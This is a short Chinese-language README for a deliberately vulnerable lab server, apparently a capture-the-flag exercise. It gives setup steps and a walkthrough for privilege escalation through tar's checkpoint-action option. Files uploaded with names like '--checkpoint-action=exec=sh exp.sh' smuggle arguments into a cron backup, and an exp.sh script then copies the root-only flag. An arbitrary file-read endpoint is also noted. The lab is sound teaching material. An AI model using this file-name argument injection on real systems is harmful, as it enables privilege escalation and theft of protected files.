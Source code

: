 ## Tar-Vuln-server

复现利用tar指令checkpoint-action参数提权

配置：

```
su
cd / && echo flag{xxxxxx} > flag && chmod 400 flag
cd [app dir]
bash cron.sh&
su [normal user]
chmod +x main
./main
```

利用：

通过/readfile?file=xx可以任意文件读取，但无法读取根目录下的flag

通过Web接口上传三个文件，文件名为：
```
--checkpoint=1
--checkpoint-action=exec=sh exp.sh
exp.sh
```

exp.sh内容为`cat /flag > 1.txt`

过一分钟备份后就会在目录下看到1.txt，读取即为flag
